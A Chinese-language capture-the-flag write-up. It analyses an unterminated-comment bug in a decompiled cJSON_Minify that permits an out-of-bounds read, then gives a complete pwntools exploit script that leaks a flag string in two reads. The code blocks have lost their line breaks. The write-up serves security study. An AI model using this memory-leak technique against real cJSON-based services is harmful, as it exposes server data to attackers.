![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmoozqZMGh2ibnggwkDubuHTJ5FlZ35GN8qC89JicY1OzKf58HLVw62NXIGg/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmoooS54xCUsFM3icFfezEElZKjTPyN98zSg0tNblib3eH20Vl0FtRy0DH1g/640?wx_fmt=png&from=appmsg "")  
  
这里初看是没有什么漏洞的，不存在溢出和连带读的情况，但是有个cJSON_minify函数 通过ida对给的libcjson文件静态分析发现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmooD2aASZyudROiagxDGveJxkcPe0zlCeGYvLfOQFgNwgy4BzOeB1OyAbQ/640?wx_fmt=png&from=appmsg "")  
  
将这个转化一下为  
```
#include <stdint.h>#include <stdbool.h>void cJSON_Minify(char *json) {    if (!json) return;    char *jsona = json;      uint8_t *into = (uint8_t *)json;     while (*jsona) {        switch (*jsona) {            case ' ': case '\t': case '\r': case '\n':                jsona++; // Skip whitespace                break;            case '/':                if (jsona[1] == '/') {                    while (*jsona && *jsona != '\n') jsona++; // Skip single-line comment                } else if (jsona[1] == '*') {                    jsona += 2; // Skip the /*                    while (*jsona && !(*jsona == '*' && jsona[1] == '/')) {                        if (!*jsona) return; // Exit if we reach the end without closing                        jsona++; // Skip until end of comment                    }                    jsona += 2; // Skip the */                } else {                    *into++ = *jsona++; // Copy character                }                break;            case '"':                *into++ = *jsona++;                while (*jsona && *jsona != '"') {                    *into++ = *jsona++; // Copy character                    if (*(jsona - 1) == '\\') *into++ = *jsona++; // Copy escaped character                }                if (*jsona) *into++ = *jsona++; // Copy closing quote                break;            default:                *into++ = *jsona++; // Copy normal character                break;        }    }    *into = 0; // Null-terminate the new string}
```  
  
这里存在一个注释没有对未闭合进行检测的情况，就比如如果我是/aaaaaaaaaaaaaaaaaa 但是没闭合的话 这种情况就会一直执行这个循环 也就是jsona++但是我们读入是通过   
into++ = *jsona++进行的读入 就会导致我们可以越界读到程序让我们leak的位置  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmoo6sorx6sNkkfCI2OBBSb43frLuQN6Tz4Lgr2DxNUXsyia54HlJCTXcYw/640?wx_fmt=png&from=appmsg "")  
  
可以看到正常读入是这个样子，此时我们需要泄露的this_is_data_in_server有22字节，按照我们上面的分析如果全是注释没闭合那么，就会把this读入到xxx90的位置，rsi是我们wirite的地址，也就是读出末尾的server  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmooqNCQrq8nbW7KHt4nsWSfJlbkQBnWqia2Ff210hSQicOQ697YDV1WUkHQ/640?wx_fmt=png&from=appmsg "")  
  
那么我们就可以通过控制注释的size 来分两次读出flag  
## exp  
```
#!/usr/bin/python3from pwn import *import randomimport osimport sysimport timefrom pwn import *from ctypes import *import json#--------------------setting context---------------------context.clear(arch='amd64', os='linux', log_level='debug')#context.terminal = ['tmux', 'splitw', '-h']sla = lambda data, content: mx.sendlineafter(data,content)sa = lambda data, content: mx.sendafter(data,content)sl = lambda data: mx.sendline(data)rl = lambda data: mx.recvuntil(data)re = lambda data: mx.recv(data)sa = lambda data, content: mx.sendafter(data,content)inter = lambda: mx.interactive()l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))s=lambda data: mx.send(data)log_addr=lambda data: log.success("--->"+hex(data))p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))def dbg():    gdb.attach(mx)#---------------------------------------------------------# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')filename = "./pwn"mx = process(filename)#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)elf = ELF(filename)libc=elf.libc#初始化完成---------------------------------------------------------\s('aaaaaaaa/*'.ljust(0xe,'a'))sleep(0.5)s('aaaaaaaa/*'.ljust(0xe,'b')) #'this_is_dat'flag1=mx.recv(0xb)s('aaaaa/*'.ljust(0xe,'a'))sleep(0.5)s('/*'.ljust(0xe,'b')) #'this_is_dat'flag2=mx.recv(0xb)print(flag1+flag2)inter()
```  
  